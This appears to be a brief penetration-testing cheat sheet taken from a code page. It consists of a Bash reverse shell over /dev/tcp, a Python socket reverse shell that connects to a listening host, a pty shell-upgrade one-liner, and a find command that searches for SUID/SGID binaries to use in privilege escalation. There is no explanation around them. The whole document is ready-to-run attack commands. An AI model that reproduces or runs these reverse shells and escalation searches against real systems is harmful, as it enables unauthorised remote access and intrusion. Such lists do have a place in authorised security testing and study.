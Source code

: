 **Bash**
```shell
bash -i >& /dev/tcp/192.168.139.129/4444 0>&1
```
**Python**
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python -c 'import pty;pty.spawn("/bin/bash")'
```

Search permissions command(Please remember):
```shell
/usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```
